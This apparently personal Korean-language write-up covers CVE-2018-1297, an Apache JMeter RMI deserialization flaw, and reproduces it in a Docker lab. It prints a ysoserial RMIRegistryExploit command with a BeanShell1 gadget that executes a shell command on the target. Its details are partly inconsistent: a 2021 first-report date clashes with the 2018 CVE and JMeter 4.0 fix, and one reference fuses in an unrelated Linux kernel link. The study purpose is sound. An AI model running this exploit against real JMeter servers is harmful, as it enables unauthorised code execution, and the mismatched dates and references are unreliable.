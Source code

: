 ## CVE-2018-1297



#### Apache Jmeter RMI De-Serialization Command Execution Vulnerability

| **First Reporter** |          **Philippe Mouawad**          |
| :----------------- | :------------------------------------: |
| **Author**         | **SeongHyeon Oh(os5844557@gmail.com)** |
| **Date Created**   |             **2023.10.30**             |
| **Version**        |               **1.0.0**                |



### INDEX

-----

**1. introduce**

**2. Code Audit**

**3. Reproduce**

**4. Reference**



#### 1. Introduce

----

  Apache JMeter은 미국 아파치 소프트웨어 재단(American Apache Software Foundation)이 스트레스 테스트 및 성능 테스트를 위해 Java 언어로 작성한 오픈 소스 소프트웨어 세트입니다.

  CVE-2018-1297은 JMeterEngine 에서 발견되었으며 2021년 01월 23일 Philippe Mouawad에 의해 최초로 보고되었다. 

  이는 분산 테스트만(RMI 기반) 사용하는 경우 jmeter가 보안되지 않은 RMI를 사용하므로 공격자가 JMeterEngine에 액세스하고 승인되지 않은 코드를 보낼 수 있는 취약점이다.

  해당 vulnerability는 JMeter 2.X, 3.X에서 트리거되며, JMeter 4.0에서 patch가 이루어졌다. CVSS v3 score은 9.8이다.

   

#### 2. Reproduce

------

대상 환경: Kali Linux

- `docker-compose up -d`를 실행하여 테스트 환경을 실행함.
- `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'`를 실행하여 지정된 페이로드가 포함된 패킷을 대상으로 보낸다.

 

#### 3. Conclusion

----

<img src="C:\Users\User\OneDrive\바탕 화면\1..png"  />

![](C:\Users\User\OneDrive\바탕 화면\2..png)

![](C:\Users\User\OneDrive\바탕 화면\3..png)

![](C:\Users\User\OneDrive\바탕 화면\5..png)

![](C:\Users\User\OneDrive\바탕 화면\6..png)



#### 4. Reference

----

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1297

https://nvd.nist.gov/vuln/detail/CVE-2018-1297

https://ubuntu.com/security/CVE-2018-1297

https://www.cvedetails.com/cve/CVE-2018-1297/

https://lists.apache.org/thread/nmnl88g0t1zm5rs6nfbfc7s30j141645https://elixir.bootlin.com/linux/v5.14.15/source/net/tipc/crypto.c

https://bz.apache.org/bugzilla/show_bug.cgi?id=62039

